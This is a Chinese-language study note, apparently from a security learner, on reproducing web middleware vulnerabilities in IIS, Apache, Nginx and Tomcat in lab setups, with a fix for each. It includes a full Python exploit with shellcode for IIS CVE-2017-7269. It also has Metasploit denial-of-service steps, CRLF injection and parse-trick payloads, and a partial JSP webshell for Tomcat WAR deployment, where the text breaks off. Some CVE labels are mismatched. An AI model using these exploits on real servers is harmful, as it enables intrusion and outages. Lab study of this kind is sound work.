



# web中间件漏洞复现/分析

> https://422926799.github.io/
>
> https://paper.seebug.org/1989/
>
> https://github.com/vulhub/vulhub 漏洞靶机
>
> https://github.com/Threekiii/Vulhub-Reproduce  Vulhub漏洞复现知识库
>
> 漏洞库
>
> http://wiki.peiqi.tech/  PeiQi文库
>
> https://baizesec.github.io/bylibrary/ 白阁文库
>
> https://wiki.96.mk/ 零组公开漏洞库
>
> https://evalshell.com/ 风炫安全
>
> https://github.com/hanc00l/wooyun_public 乌云的漏洞库，比较老了

## web容器

> https://github.com/vulhub/vulhub 漏洞复现环境
>
> https://github.com/knownsec/pocsuite3 poc框架

中间件是一种独立的系统软件或服务程序，分布式应用软件借助这种软件在不同的技术之间共享资源。中间件位于客户机/服务器的操作系统之上，管理计算机资源和网络通讯。是连接两个独立应用程序或独立系统的软件。相连接的系统，即使它们具有不同的接口，但通过中间件相互之间仍能交换信息。执行中间件的一个关键途径是信息传递。通过中间件，应用程序可以工作于多平台或OS环境。（百度百科）

*   **以下更多是搭建环境和利用；对漏洞运行的原理分析很少，后面可能会补充**

### IIS漏洞

*   **简介**

    IIS是Internet Information Services的缩写，意为互联网信息服务，是由微软公司提供的基于运行Microsoft Windows的互联网基本服务。最初是Windows NT版本的可选包，随后内置在Windows 2000、Windows XP  Professional和Windows Server 2003一起发行，但在Windows XP  Home版本上并没有IIS。**IIS是一种Web（网页）服务组件，其中包括Web服务器、FTP服务器、NNTP服务器和SMTP服务器，分别用于网页浏览、文件传输、新闻服务和邮件发送等方面，它使得在网络（包括互联网和局域网）上发布信息成了一件很容易的事。**

    IIS的安全脆弱性曾长时间被业内诟病，一旦IIS出现远程执行漏洞威胁将会非常严重。远程执行代码漏洞存在于 HTTP 协议堆栈 (HTTP.sys) 中，当 HTTP.sys 未正确分析经特殊设计的 HTTP  请求时会导致此漏洞。成功利用此漏洞的攻击者可以在系统帐户的上下文中执行任意代码，可以导致IIS服务器所在机器蓝屏或读取其内存中的机密数据
    
*   搭建环境

    *   安装windows2003

        [MSDN, 我告诉你 - 做一个安静的工具站](https://msdn.itellyou.cn/)

        下载windows2003

        丢到虚拟机中，安装步骤，典型就行，直接安装光盘镜像，一路下一步；记得设置CD选项

    *   安装iis6

        注意在双击“万维网服务”，从中还有选webDAV

        图文版见https://www.cnblogs.com/pandana/p/14850798.html

        文字版

        1.进入“控制面板”。

        2.双击“添加或删除程序”。

        3.单击“添加/删除Windows组件”。

        4.在“组件”列表框中，双击“应用程序服务器”。

        5.勾选并双击“Internet信息服务(IIS)”。

        6.从中选择“万维网服务”及“文件传输协议(FTP)服务”。

        7.双击“万维网服务”，从中选择“ActiveServerPages”及“万维网服务”,webDAV。

        安装好IIS后，接着设置Web服务器，具体做法为：

        1.在“开始”菜单中选择“管理工具→Internet信息服务(IIS)管理器”。

        2.在“Internet信息服务(IIS)管理器”中双击“本地计算机”。

        3.右击“网站”，在弹出菜单中选择“新建→网站”，打开“网站创建向导”。

        4.跟着来就行，**网站访问权限记得给写入**

        **记住快照**

#### PUT漏洞

*   **介绍**

    IIS Server 在 Web 服务扩展中开启了 **WebDAV**[^1] ，配置了可以写入的权限，造成任意文件上传。

    版本： IIS6.0

[^1]:WebDAV 是 一种基于 HTTP 1.1协议的通信协议。它扩展了HTTP 1.1，在GET、POST、HEAD等几个HTTP标准方法以外添加了一些新的方法，使应用程序可对Web Server直接读写，并支持写文件锁定(Locking)及解锁(Unlock)，还可以支持文件的版本控制。

*   **复现**

    用OPTIONS方法访问

    

    存在PUT方法

    再用PUT上传文件，成功返回201

    

    访问，成功；不要用php，服务器没php环境，无法解析会报错

*   **漏洞修复**

    关闭WebDAV 和写权限

#### 短文件名猜解

*   短文件名

    *   格式

        通常指较旧的Windows操作系统或DOS的文件命名限制

        8指文件名最大长度为8

        3指扩展名最大长度为3

        若不符合以上限制则会以"~"作延长名称如"Program Files"会变成"Progra~1"

        若同一文件夹有相似的名称，末端的数值则会自动递增

    *   短文件名的命名规则

        符合DOS短文件名规则的Windows下的长文件名不变。 

        长文件名中的空格，在短文件名中被删除。

        删除空格后的长文件名，若长度大于8个字符，则取前6个字符，后两个字符以"~#"代替，其中"#"为数字，数字根据前六个字符相同的文件名的个数顺延。若个数超过10个则取前5个字符，后三个字符以"~##"代替，其中"##"为两位数字，若个数大于100也依此规则替换。

        对使用多个"．"隔开的长文件名，取最左端一段转换为短文件名，取最右一段前三个字符为扩展名。

        

     

*   **介绍**

    攻击者使用通配符*和?发生一个请求到IIS，当IIS接收到一个文件路径中包含~请求时，它的反应是不同的，即返回的HTTP状态码和错误信息不同。基于这个特点，可以根据HTTP的响应区分一个可用或者不可用的文件。访问构造的某个存在的短文件名，会返回404；访问构造的某个不存在的短文件名，会返回400（报错页面）

    IIS的短文件名机制，可以暴力猜解短文件名，访问构造的某个存在的短文件名，会返回404，访问构造的某个不存在的短文件名，返回400。

*   **复现**

    **IIS8.0以下版本需要开启ASP.NET支持**，IIS大于等于8.0版本,即使没有安装ASP.NET，通过OPTIONS和TRACE方法也可以猜解成功。
    以下通过开启IIS6.0 ASP.NET后进行复现。

    

    利用通配符来验证，**注意短文件名后必须加上/.aspx，才能触发短文件名规则**

    404

    

    400

    

    可以通过python2环境的工具[IIS_shortname_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)来实现

    

*   **修复**

    1.   升级.net framework

    2.   修改注册表禁用短文件名功能

         快捷键Win+R打开命令窗口，输入regedit打开注册表窗口，找到路径：

         HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem，将其中的 NtfsDisable8dot3NameCreation这一项的值设为 1，1代表不创建短文件名格式，修改完成后，需要重启系统生效

    3.   CMD关闭NTFS 8.3文件格式的支持

*   **局限性**

    1.   此漏洞只能确定前6个字符，如果后面的字符太长、包含特殊字符，很难猜解；

    2.   如果文件名本身太短（无短文件名）也是无法猜解的；

    3.    如果文件名前6位带空格，8.3格式的短文件名会补进，和真实文件名不匹配；

#### 远程代码执行

##### RCE-CVE-2017-7269

*   **介绍**

    Windows server 2003 R2版本IIS6.0的WebDAV服务中的ScStorgPathFromUrl函数存在缓冲区溢出漏洞，远程攻击者通过以“if:<http://"开头的长header PROPFIND请求，执行任意代码

    在IIS6.0处理PROPFIND指令的时候，由于对url的长度没有进行有效的长度控制和检查，导致执行memcpy对虚拟路径进行构造的时候，引发**栈溢出**，从而导致远程代码执行。

    有能力的可以看[漏洞分析](https://whereisk0shl.top/cve-2017-7269-iis6-interesting-exploit.html)

*   **范围**

    在Windows 2003 R2（Microsoft(R) Windows(R) Server 2003, Enterprise Edition Service Pack 2）上使用IIS 6.0并开启WebDAV扩展

*   **复现**

    **先快照**，该exp的全采用默认路径即C:\Inetpub\wwwroot，所以需要将网站路径修改，也可以填充`在覆盖缓冲区的时候填充的字符长度要根据物理路径的长度来决定，且物理路径长度 + 填充字符的个数 = 114。`其他的问题见https://xz.aliyun.com/t/6485

    使用exp发送，然后利用wireshark抓取查看包信息(抓包然后用bp发送，会因为编码不同，出现错误)

    

    

    ```python
    #https://github.com/guhuisec/IIS6.0-RCE-CVE-2017-7269-Echo-PoC/blob/master/CVE-2017-7269_remote_echo.py
    import socket
    import sys
    import time
    
    
    def generate_payload(port):
        pay = 'PROPFIND / HTTP/1.1\r\nHost: localhost:' + port + '\r\nContent-Length: 0\r\n'
        pay += 'If: <http://localhost:' + port + '/aaaaaaa'
        pay += '\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
        pay += '>'
        pay += ' (Not <locktoken:write1>) <http://localhost:' + port + '/bbbbbbb'
        pay += '\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
        shellcode = 'VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397N30WRJLMSSI7LNR72JPTKOXPZKQH0CR615NMNRP0NQNWNMOGP206NYKPOSRORN3D35RND4NMPTD9RP2ENZMPT4352XCDNOS8BTBMBLLMKZOSROBN441URNT4NMPL2ERNS7SDBHOJOBNVO0LMLJLMKZ0HOXOY0TO0OS260ENMNRP0NQOGNMOGOB06OIMP2345RCS3RET3D3M0KLK8SRM0KPM0C0SYK5NQWP2DDK0PNP4KQBLLTKQBMDDKD2MXLOGG0JO6NQKO6LOLQQSLKRNLMP7QXOLMM18G9RJRR2R74KQBLP4K0JOL4K0LN1RXK3PHKQHQ0Q4K29MPM19CTKQ9MH9SOJQ94KNTTKKQJ6P1KOFLY1XOLMKQXGNX9PD5KFM33MKHOKSMO42UJDPXTKB8O4KQIC1V4KLL0K4K0XMLKQXSTKKTTKKQJ0CYQ4O4MTQKQK1QR90Z0QKOYPQOQOQJ4KLRJKTM1MWKOWMCBR2OQZKPPSKOYEKPA'
        pay += shellcode
        pay += '>\r\n\r\n'
        return pay
    
    
    def send_pack(ip, port=80):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((ip, port))
        time_tick = time.time()
        sock.send(generate_payload(str(port)))
        
    
        try:
            data = sock.recv(80960)
        except:
            pass
        print data
    
        sock.close()
    
        if not -1 == data.find('HHIT CVE-2017-7269 Success'):
            return True
    
        return False
    
    
    if 2 == len(sys.argv):
        print send_pack(sys.argv[1])
    else:
        print send_pack(sys.argv[1], int(sys.argv[2]))
    ```

*   **漏洞修复**

    1.   WebDAV 服务

    2.   使用相关防护设备
    3.   安装修复补丁（KB3042553）

##### HTTP.SYS远程代码执行 (MS15-034)

*   **介绍**

    HTTP 协议堆栈 (HTTP.sys) 中存在一个远程代码执行漏洞，当 HTTP.sys 错误地解析特制 HTTP 请求时，会导致该漏洞。成功利用此漏洞的攻击者可以在系统帐户的上下文中执行任意代码。

*   **范围**

    对于 Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2 的所有受支持版本，此安全更新的等级为“严重”。

*   **复现**

    win7上安装iis7.5，步骤见https://jingyan.baidu.com/article/aa6a2c14e8c2080d4c19c40a.html

    curl命令测试

    ```
    curl http://192.168.80.130 -H "Host: 192.168.80.130" -H "Range: bytes=0-18446744073709551615"
    ```

    

     若IIS服务器返回“Requested Range Not Satisfiable”，则是存在漏洞，否则如果返回”The request has an invalid header name“，则说明漏洞已经修补。

    利用msf测试（kali）

    *   运行`msfconsole`
    *   `search ms15-034`
    *   利用模板二 `use auxiliary/dos/http/ms15_034_ulonglongadd`
    *   `set rhosts 192.168.52.130`
    *   `run`  
    *   win7蓝屏重启

*   **修复**

    1.   临时办法

         禁用IIS内核缓存

    2.   官方补丁

         官方补丁下载：https://support.microsoft.com/zh-cn/kb/3042553

#### 解析漏洞

*   **漏洞**

    IIS 6.0 在处理含有特殊符号的文件路径时会出现逻辑错误，从而造成文件解析漏洞。这一漏洞有两种完全不同的利用方式：

    ```
    /test.asp/test.jpg     //新建一个名为 "test.asp" 的目录，该目录中的任何文件都被 IIS 当作 asp 程序执行
    test.asp;.jpg    //上传名为 "test.asp;.jpg" 的文件，虽然该文件真正的后缀名是 ".jpg", 但由于含有特殊符号 ";" ，仍会被 IIS 当做 asp 程序执行
    ```

    IIS7.5 文件解析漏洞

    ```
    test.jpg/.php
    ```

    URL 中文件后缀是 .php ，便无论该文件是否存在，都直接交给 php 处理，而 php 又默认开启  "cgi.fix_pathinfo", 会对文件进行 “ 修理 ”(举个例子，当 php 遇到路径  "/aaa.xxx/bbb.yyy" 时，若 "/aaa.xxx/bbb.yyy" 不存在，则会去掉最后的 “bbb.yyy" ，然后判断  "/aaa.xxx" 是否存在，若存在，则把 “/aaa.xxx" 当作文件。)

    若有文件 test.jpg ，访问时在其后加 /.php ，便可以把 "test.jpg/.php" 交给 php ， php 修理文件路径 "test.jpg/.php" 得到 ”test.jpg" ，该文件存在，便把该文件作为 php 程序执行了。

*   **修复**

    1.   对新建目录文件名进行过滤，不允许新建包含‘.’的文件

    2.   取消网站后台新建目录的功能，不允许新建目录

    3.   限制上传的脚本执行权限，不允许执行脚本

    4.   过滤.asp/xm.jpg，通过ISApi组件过滤

### Apache漏洞

*   **简介**

    Apache 是世界使用排名第一的Web 服务器软件。它可以运行在几乎所有广泛使用的 计算机平台上，由于其 跨平台  和安全性被广泛使用，是最流行的Web服务器端软件之一。它快速、可靠并且可通过简单的API扩充，将 Perl/ Python等  解释器编译到服务器中。

#### 解析漏洞

Apache默认一个文件可以有多个以点分隔的后缀，当右边的后缀无法识别（不在mime.tyoes内），则继续向左识别，当我们请求这样一个文件：`shell.php.xxx.yyy`

yyy无法识别，向左

xxx无法识别，向左

php识别成功，shell.php，php处理

*   **复现**

    略，上传html

    ```
    </!DOCTYPE html>
    <html>
    <head>
    	<title>CTFshow upload</title>
    </head>
    <body>
    <h2>CTFshow File Upload Template</h2>
    	<form  action="http://ip/" method="post" enctype="multipart/form-data">
    		<input type="file" name="file"/>
    		 <input type="submit" value="Submit" />
    	</form>
    </body>
    </html>
    ```

*   **漏洞修复**

    将AddHandler application/x-httpd-php .php的配置文件删除

### Nginx漏洞

*   **简介**

    Nginx 是一款 轻量级的 Web 服务器、 反向代理 服务器及 电子邮件（IMAP/POP3）代理服务器，并在一个BSD-like 协议下发行。其特点是占有内存少， 并发能力强，事实上nginx的并发能力确实在同类型的网页服务器中表现较好

#### 解析漏洞

*   **介绍**

    -   对任意文件名，在后面添加/任意文件名.php的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php 进行解析攻击。
    -   **对低版本的Nginx可以在任意文件名后面添加%00.php进行解析攻击。**（没有复现，影响版本：Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7）
    
*   **复现**

    **环境搭建**

    利用docker容器

    *   docker pull ubuntu:14.04.5
    *   docker run -d -it -p 本机端口:80 ubuntu:14.04.5 
    *   docker exec -it 【镜像名称】 /bin/bash

    安装环境

    *   apt-get update # 更新源(如果出现`Err http://archive.ubuntu.com trusty InRelease`,可以用`docker run -d -it --net=host ubuntu:14.04.5  `#直接用宿主机端口；可以查查docker的四种网络模式)
    *   apt-get install vim # 安装vim(可有可无，可以用vi)
    *   apt-get install nginx # 安装nginx
    *   service nginx start # 启动nginx服务
    *   apt-get install php5-fpm # 安装php5-fp

    配置方法

    *   刚装好的Nginx不能解析php，修改配置文件

        vim /etc/nginx/sites-available/default

        将注释删除

        

    启动web服务

    *   /etc/init.d/php5-fpm start
    *   在`/usr/share/nginx/html # 默认web目录`写一个php测试文件
    *   重启nginx      `nginx -s reload`

    **开始测试**

    *   创建1.jpg文件，访问

    

    *   访问1.jpg/1.php

    

    原理与iis解析漏洞差不多，都是"修理"功能`cgi.fix_pathinfo`，该值默认为1，表示开启"修理模式"，其配置在`/etc/php5/fpm/php.ini`的768行处

    Nginx拿到文件路径/1.jpg/1.php后，一看后缀是.php，便认为该文件是php文件，转交给php去处理。php一看/1.jpg/1.php不存在，便删去最后的/1.php，又看/1.jpg存在，便把/1.jpg当成要执行的文件了，又因为后缀为.jpg，php认为这不是php文件，于是返回“Access denied.”

    

    *   配置/etc/php5/fpm/pool.d/www.conf中的limit_extensions允许解析其他的格式文件(在364行)

    将security.limit_extensions处修改

    重启fpm服务 `service php5-fpm restart`

    再次访问1.jpg/1.php
    
    

*   **修复**

    1.   将php.ini文件中的cgi.fix_pathinfo的值设为0.这样php在解析1.php/1.jpg这样的目录时，只要1.jpg不存在就会显示404；(在低版本可以用%00解析，无需cgi.fix_pathinfo)

    2.   将/etc/php5/fpm/pool.d/www.conf中security.limit_ectensions后面的值设为.php

#### CRLF注入

*   **介绍**

    CRLF是”回车+换行”(\r\n)的简称。在HTTP协议中,HTTP header与HTTP  Body是用两个CRLF分隔的,浏览器就是根据这两个CRLF来取出HTTP内容并显示出来。所以,一旦我们能够控制HTTP消息头中的字符,注入一些恶意的换行,这样我们就能注入一些会话Cookie或者HTML代码。CRLF漏洞常出现在Location与Set-cookie消息头中。

*   **复现**

    1.   修改nginx的配置文件(如果还是上文的配置则在`/etc/nginx/sites-available/default`),在如下图位置添加配置`return 302 https://$host$url;`,此配置实现了强制跳转的功能,当用户访问nginx服务器时由于此配置的存在会被强制跳转到以https协议访问之前访问的链接

         

         重启ngnix服务,`nginx -s reload`

    2.   测试poc `http://x.x.x.x/%0A%0DSet-Cookie:%20a=1%0A%0DSet-cookie:JSPSESSID%3Dwooyun`

         

         302页面存在构造 Set-0cookie:a=1与Set-cookie:JSPSESSID=wooyun

    3.   利用xss填入`http://x.x.x.x:8080/%0D%0ASet-Cookie:%20a=1%0A%0A `

         

*   **修复**

    删除该配置

#### 目录穿越

*   **介绍**

    Nginx反向代理，静态文件存储在/home/下，而访问时需要在url中输入files，配置文件中/files没有用/闭合，导致可以穿越至上层目录。

*   **复现**

    在ngnix配置文件处`/etc/nginx/sites-available/default`添加

    ```
    location /files {
            autoindex on;
            alias /home/;
            }
    ```

    

    访问

    x.x.x.x/files

    

    但存在目录穿越

    再次访问x.x.x.x/files../

    

*   **修复**

    将files的使用闭合

    

### Tomcat漏洞

*   **简介**

    Tomcat 服务器是一个免费的开放源代码的Web 应用服务器，属于轻量级应用  服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP  程序的首选。对于一个初学者来说，可以这样认为，当在一台机器上配置好Apache 服务器，可利用它响应 HTML （  标准通用标记语言下的一个应用）页面的访问请求。**实际上Tomcat是Apache 服务器的扩展，但运行时它是独立运行的，所以当运行tomcat  时，它实际上作为一个与Apache 独立的进程单独运行的。**

*   **环境配置**

    详细见[kali 安装Vulhub靶场](https://blog.csdn.net/weixin_37639863/article/details/122979472)

    利用vulhub靶场搭建

    安装docker，docker-compose(`pip install docker-compose`)

    下载vulhub,时间有点长

    `git clone https://github.com/vulhub/vulhub.git`

    进入vulhub中的漏洞目录用 `docker-compose up -d`启动

*   **常见目录**

    bin	专门用来存放Tomcat服务器的可执行程序

    conf	专门用来存放Tomcat服务器的配置文件

    lib	专门用来存放Tomcat服务器的jar包

    logs	专门用来存放Tomcat服务器运行时输出的日记信息

    temp	专门用来存放Tomcat服务器运行时产生的临时数据

    webapps	专门用来存放部署的web工程

    work	Tomcat工作时的目录，用来存放Tomcat运行时jsp翻译为Servlet的源码，和Session钝化的目录。

#### Tomcat 任意文件写入(CVE-2017-12615)

*   **介绍**

    Tomcat 运行在Windows 主机上，且启用了 HTTP PUT 请求方法，可通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行。

    影响版本： Apache Tomcat 7.0.0 – 7.0.81

*   **复现**

    *   **开启容器**

        在vulhub的`../vulhub/tomcat/CVE-2017-12615/`目录下使用`docker-compose up -d`开启容器

        查看

        

        `docker ps`查看容器

        `docker -exec -it 容器id /bin/bash/`进去容器

        `cat conf/web.xml | grep readonly` 查看配置

        readonly配置为false

        

    *   **利用**

        bp抓包(我这是8080端口，会和bp初始端口冲突，需要换个端口监听)，把get改为put，上传文件

        

        查看文件目录 `ls /usr/local/tomcat/webapps/ROOT`

        

        上传jsp文件，需要在jsp后加上%20，绕过后缀限制

        

*   **修复**

    1.   升级版本

    2.   禁用PUT方法，其他的禁用见https://blog.csdn.net/chou_qi/article/details/110459752

         在web.xml中添加

         ```xml
         <security-constraint>    
         	<web-resource-collection>    
         		<url-pattern>/*</url-pattern>    
         		<http-method>PUT</http-method>      
         	</web-resource-collection>    
         	<auth-constraint>    
         	</auth-constraint>    
         </security-constraint>    
         <login-config>    
         	<auth-method>BASIC</auth-method>    
         </login-config>
         ```

    3.   将readonly=true(默认为true)

#### Tomcat 远程代码执行（CVE-2019-0232）

*   **介绍**

    由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有  webapp 目录下的任意文件，例如可以读取 webapp  配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害

    影响范围：

    -   Apache Tomcat 9.x < 9.0.31
    -   Apache Tomcat 8.x < 8.5.51
    -   Apache Tomcat 7.x < 7.0.100
    -   Apache Tomcat 6.x

*   **复现**

    *   利用vulhub搭建环境

        在vulhub的`../vulhub/tomcat/CVE-2020-1938/`目录下使用`docker-compose up -d`开启容器

        访问127.0.0.1：8080

        

        成功开启

    *   **验证**

        poc测试https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/master/CNVD-2020-10487-Tomcat-Ajp-lfi.py下载

        直接运行poc，查看

        

        在tomcat路径下创建一个php文件

        

        poc访问，读取源码

    


*   **修复**
    1.   临时禁用AJP协议端口，在conf/server.xml配置文件中注释掉<Connector port=“8009” protocol="AJP/1.3"redirectPort=“8443” />
    2.   更新tomcat版本

#### Tomcat 弱口令&后台war部署

*   **介绍**

    *   Tomcat 支持在后台部署war文件，可以直接将webshell部署到web目录下

    *   登入后台界面可以爆破

*   **复现**

    *   一样利用vulhub搭建环境

        在vulhub的`../vulhub/tomcat/tomcat8/`目录下使用`docker-compose up -d`开启容器

    *   访问后台界面`http://192.168.52.128:8080/manager/html`出现密码输入，抓包发现利用base64加密，可以尝试爆破；这里直接账户密码登入tomcat  tomcat

        

        

    *   进入后台

        

        先构建恶意war文件

        创建jsp木马，密码为passwd

        ```jsp
            <%!
                class U extends ClassLoader {
                    U(ClassLoader c) {
                        super(c);
                    }
                    public Class g(byte[] b) {
